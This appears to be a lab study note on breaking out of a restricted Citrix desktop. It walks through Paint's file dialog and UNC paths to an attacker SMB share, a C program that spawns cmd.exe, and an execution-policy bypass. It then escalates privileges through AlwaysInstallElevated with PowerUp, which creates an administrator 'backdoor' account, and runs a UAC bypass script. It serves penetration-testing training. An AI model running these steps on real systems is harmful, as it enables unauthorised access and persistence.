 # Citrix Breakout

most company use Citrix to allow employees to work remotely which block things like (CMD, File Explorer)

**Basic Methodology for break-out:**

1. Gain access to a `Dialog Box` like (Open, Save As)
2. Exploit the Dialog Box to achieve `command execution`. → use it to access C driver `\\127.0.0.1\c$\users\pmorgan`
3. `Escalate privileges` to gain higher levels of access → run exe files `C:\Windows\System32\cmd.exe`

**How To join Citrix environment ?**

sign in http://humongousretail.com/remote/ using RDP and use credential

***

## Bypassing Path Restrictions

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

![image.png](<../../../.gitbook/assets/image (4).png>)

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field

<figure><img src="../../../.gitbook/assets/image 1 (3).png" alt=""><figcaption></figcaption></figure>

### **Accessing SMB share from restricted environment**

Having restrictions set, File Explorer does not allow direct access to SMB shares on the attacker machine, we use UNC path within the Windows dialog box

**Run smb server on Attack box**

```bash
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Back in the Citrix environment, initiate the "Paint" application via the start menu. Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear. Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field. Ensure that the File-Type parameter is configured to "All Files." Upon pressing the "Enter" key, entry into the share is achieved.

<figure><img src="../../../.gitbook/assets/image 2 (2).png" alt=""><figcaption></figcaption></figure>

> open pwn.exe to display CMD

```c
// pwn.exe content
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

We can then use the obtained cmd access to copy files from SMB share to pmorgans Desktop directory.

```powershell
# transfer from cmd to PS
powershell -ep bypass
```

![](<../../../.gitbook/assets/2025 07 16_01_15_12 Hack_The_Box_ _Academy_ _Brave.png>)

***

### **Modify existing shortcut file**

1. `Right-click` the desired shortcut.
2. Select `Properties`.
3. Within the `Target` field, modify the path to the intended folder for access.&#x20;

<figure><img src="../../../.gitbook/assets/image 3 (2).png" alt=""><figcaption></figcaption></figure>

***

### **Script Execution**

create file with extension `.bat`, `.vbs`, or `.ps`

<figure><img src="../../../.gitbook/assets/image 4 (2).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating Privileges**

For instance, tools like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system. We can also validate this using the Command Prompt by querying the corresponding registry keys:

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

```

&#x20;we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop. &#x20;

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123` under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

<figure><img src="../../../.gitbook/assets/image 5 (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## **Bypassing UAC**

```powershell
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep

```
